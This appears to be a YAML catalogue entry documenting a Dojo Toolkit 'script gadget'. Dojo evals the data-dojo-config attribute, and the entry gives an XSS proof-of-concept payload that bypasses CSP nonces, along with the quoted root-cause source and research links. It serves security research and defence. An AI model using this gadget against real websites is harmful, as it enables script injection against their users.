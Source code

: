 ```yaml
---
description: A JavaScript toolkit that saves you time and scales with your development process. Provides everything you need to build a Web app. Language utilities, UI components, and more, all in one place, designed to work together perfectly.
github: dojo/dojo
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - data-attr
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - description: The [Dojo Toolkit](https://github.com/dojo/dojo) library evaluates the `data-dojo-config` attribute using `eval`.
        code: |
          <!-- user input -->
          <script data-dojo-config="}-alert(document.domain)-{"></script>

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/dojo/1.17.3/dojo.js"></script>
          <script nonce="secret">
              require([
                "dojo/parser",
                "dijit/form/Button",
                "dojo/domReady!"
              ], function(parser){
                parser.parse();
              });
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/dojo/dojo/blob/185a4fb314de482a1b6b5668095b998da9c1b58f/dojo.js#L721">https://github.com/dojo/dojo/blob/185a4fb314de482a1b6b5668095b998da9c1b58f/dojo.js#L721</a>

      ```javascript
      if(has("dojo-cdn") || has("dojo-sniff")){
        // the sniff regex looks for a src attribute ending in dojo.js, optionally preceded with a path.
        // match[3] returns the path to dojo.js (if any) without the trailing slash. This is used for the
        // dojo location on CDN deployments and baseUrl when either/both of these are not provided
        // explicitly in the config data; this is the 1.6- behavior.

        var scripts = doc.getElementsByTagName("script"),
          i = 0,
          script, dojoDir, src, match;
        while(i < scripts.length){
          script = scripts[i++];
          if((src = script.getAttribute("src")) && (match = src.match(/(((.*)\/)|^)dojo\.js(\W|$)/i))){
            // sniff dojoDir and baseUrl
            dojoDir = match[3] || "";
            defaultConfig.baseUrl = defaultConfig.baseUrl || dojoDir;

            // remember an insertPointSibling
            insertPointSibling = script;
          }

          // sniff configuration on attribute in script element
          if((src = (script.getAttribute("data-dojo-config") || script.getAttribute("djConfig")))){
            dojoSniffConfig = req.eval("({ " + src + " })", "data-dojo-config");

            // remember an insertPointSibling
            insertPointSibling = script;
          }

          // sniff requirejs attribute
          if(has("dojo-requirejs-api")){
            if((src = script.getAttribute("data-main"))){
              dojoSniffConfig.deps = dojoSniffConfig.deps || [src];
            }
          }
        }
      }
      ```
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/dojo/index.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/ue/dojo_exploit.php
---
```

